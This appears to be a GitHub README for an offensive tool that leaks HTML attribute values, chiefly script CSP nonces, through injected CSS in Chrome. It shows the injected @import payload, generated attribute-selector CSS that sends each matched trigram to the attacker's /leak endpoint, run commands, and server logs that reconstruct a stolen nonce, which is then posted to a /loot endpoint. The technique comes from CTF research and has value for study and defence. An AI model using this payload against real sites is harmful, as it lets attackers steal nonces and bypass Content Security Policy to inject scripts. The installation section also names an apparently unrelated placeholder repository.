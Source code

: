 # sCSSLeak
This tool allows to leak HTML tag attributes using a standalone CSS file. The technique is solely inspired by [`newdiary`](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves) from 0CTF.


## Leak Technique 

The approach involves finding a method to assign multiple background images to a single element **using a standalone CSS file**, ensuring that the browser fetches all of them. The [`cross-fade()`](https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade) CSS function accepts two images and a percentage as input and produces an image obtained by blending the two images.

# Attack Prerequisites 

- Style tag injection 
- Target attribute must not have ```type=hidden``` (which is usually the case) but still useful for leaking tags such as `script[nonce]` and others

This will only work on Chrome as other brwoser does not support `cross-fade`


# Configuration

The script will retrieve and reconstruct the nonces from the requests and print them to both the console where the script was executed and the **/loot** endpoint.

- `--base_url`: The base URL of the server.
- `--nonce_len`: The length of the nonce to be retrieved.
- `--tag`: A tag to identify the type of requests.
- `--attr`: The attribute name containing the nonce.
- `--port` port 
- `--charset` default='abcdefghijklmnopqrstuvwxyz0123456789'

# Usage

To leak the nonce attribute from the script tag i.e: 

```html 
<head>
<style>@import url(http://127.0.0.1:8081/leak);</style>
</head>
<body>
  <script nonce="[random string]"></script>
</body>
```

The script must be executed as follows: 

```bash
python3 main.py --base_url http://127.0.0.1:8081 --nonce_len 26 --tag script --attr nonce --port 8081
```

Which can then be imported as:

```<style> @import url(http://127.0.0.1:8081/leak); </style>```

Which should have already initiatied the `/leak` endpoint with the following structure

```css
script[nonce*='aaa']{ --aaa: url('http://127.0.0.1:8081/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://127.0.0.1:8081/leak?x=aab'); }
...
...
script{display:block;}script { background-image: -webkit-cross-fade(-webkit-cross-fade(var(--aaa, none), var(--aab, none), 50%), -webkit-cross-fade(var(--aac, none), var(--aad, none), 50%), 50%), -webkit-cross-fade(-webkit-cross-fade(var(--aae, none), var(--aaf, none), 50%), -webkit-cross-fade(var(--aag, none), var(--aah, none), 50%), 50%), -webkit-cross-fade(-webkit-cross-fade(var(--aai, none), var(--aaj, none), 50%), -webkit-cross-fade(var(--aak, none), var(--aal, none), 50%), 50%)
...
```

After execution, the http log should look like the following

```
127.0.0.1 - - [24/Jan/2024 05:15:24] "GET /leak HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=bnm HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=cvb HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=fkg HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=fsp HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=efs HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=ghj HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=hjy HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=mwe HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=krz HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=nmw HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=jyk HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=kgh HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=pxe HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=rzx HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=spx HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=wef HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=vbn HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=xcv HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=29f HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=ykr HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=9fk HTTP/1.1" 200 -
[+] leaked nonce: 4329fkghjykrzxcvbnmwefspxe
[+] leaked nonce: 4329fkghjykrzxcvbnmwefspxe
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=329 HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=zxc HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=432 HTTP/1.1" 200 -
```

The leaked value can then be found on the `/loot` endpoint as well as the terminal.


# Installation 

Clone the repository & Install the dependencies
```
git clone https://github.com/your-username/flask-nonce-generator.git
cd flask-nonce-generator
python3 -m pip install -r requirements.txt
```

# Resources

- [newdiary - 0CTF Challenge](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves)
- [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/)

- [ What can we do with single CSS injection? ](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/)

- [One Shot CSS Injection ](https://waituck.sg/2023/12/11/0ctf-2023-newdiary-writeup.html)
